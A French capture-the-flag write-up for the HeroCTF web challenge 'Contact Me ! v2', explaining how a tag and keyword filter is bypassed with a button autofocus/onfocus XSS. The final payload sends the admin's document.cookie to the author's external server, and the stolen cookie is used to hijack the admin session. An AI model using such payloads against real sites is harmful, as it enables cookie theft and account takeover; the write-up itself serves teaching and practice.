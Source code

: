 # Contact Me ! v2

### Catégorie

Web

### Description

Le petit développeur a bien compris la faille et a appliqué un patch.
Montrez que lui que, malgré ses efforts, ce n'est pas suffisant !

http://challs.heroctf.fr:3011/

Format : Hero{flag}

### Auteur

Worty

### Note de l'auteur

A noter qu'il existe plusieurs solutions pour flag ce challenge, ici, je n'en présenterai qu'une seule.

### Solution

Ici, nous savons que nous avons à faire à une faille de type XSS.<br/>
En revanche, l'admin a mis en place des restrictions pour se prévenir de celle-ci.

Ici, il va falloir procéder à des tests pour savoir ce que l'on a le droit de faire ou non:<br/>
- La balise "script" est interdite<br/>
- La balise "img" est interdite<br/>
- La balise "iframe" est interdite<br/>
- La balise "body" est interdite<br/>
- La balise "span" est interdite<br/>
- L'évènement "onerror" est interdit<br/>
- L'évènement "onload" est interdit<br/>
- Le caractère "+" est interdit<br/>
- La chaîne de caractère "XML" est interdite<br/>
- La fonction "open" est interdite<br/>
- La fonction "eval" est interdite<br/>
- La fonction "atob" est interdite<br/>
A noter que le script ne prend pas en compte la casse, donc même écrire ScRIpt ne marchera pas pour bypass la restriction.

Maintenant que nous savons tout ce qui est interdit, qu'est ce qu'il nous reste?
Il reste la balise <button>, l'attribut autofocus et onfocus.
"autofocus" va permettre de passer la balise <button> en focus, et donc, avec l'évènement onfocus, on va pouvoir exécuter du code javascript!

Payload : <button autofocus onfocus="alert(1)">, et magie, on a une belle alert qui se lancer quand la page se réactualise!

Il y a maintenant un autre problème, le caractère "+" est aussi interdit, on va devoir utiliser la fonction concat() de javascript.<br/>
Cette fonction s'applique aux objets de type String. Exemple "a".contact("b") donnera "ab".<br/>
C'est donc comme ceci que nous allons concaténer les cookies de l'admin à notre payload !.<br/>

Payload final : <button autofocus onfocus="window.location='https://worty.alwaysdata.net/cookies.php?c='.concat(document.cookie)" />

Pareil que pour le challenge précédent, je me connecte sur http://challs.heroctf.fr:3011/admin.php, je change mon cookie de session par celui de l'administrateur que j'ai récupéré, et j'actualise!

### Flag

Hero{htmlspecialchars_m4y_b3_y0ur_fr13nd_!!}